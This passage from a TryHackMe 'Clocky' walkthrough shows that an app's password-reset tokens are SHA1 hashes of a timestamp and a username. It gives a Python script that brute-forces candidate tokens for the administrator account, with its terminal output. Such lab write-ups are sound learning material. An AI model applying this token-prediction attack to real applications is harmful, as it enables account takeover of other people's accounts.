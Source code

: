 From the code snippet above we see that a reset password token is created and stored in the database using the time the password change request was sent and the username of the user requesting the password change. This can be exploited easily because if we have a valid username, we can use the time returned by the server, precise till the nearest second to brute force the number of milliseconds. We can request the username of a well-known user present in most applications i.e. the administrator.
![](/assets/img/posts/walthrough/tryhackme/2024-10-20-clocky/reset-pass-1.png)
![](/assets/img/posts/walthrough/tryhackme/2024-10-20-clocky/reset-pass-2.png)

The picture above shows the time return by the server in the response header. We can use this time to generate tokens in the same way it is generated in the `app.py` file. We can do this using the custom Python script below.
```python
#!/usr/bin/python3

import hashlib



server_date = '2024-10-18 14:28:52'
tokens=[]
for i in range(0,1000):
    token = f'{server_date}.{i} . ADMINISTRATOR'
    tokens.append(hashlib.sha1(token.encode("utf-8")).hexdigest()) 


with open('tokens.txt', 'w') as f:
    for token in tokens:
        f.write(f'{token}\n')
```
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Clocky/Misc File]
└─$ ./token_generator.py

┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Clocky/Misc File]
└─$ tail tokens.txt 
4a3bf5daff3f61039245e99423d5cc150cb642a1
<SNIP>
```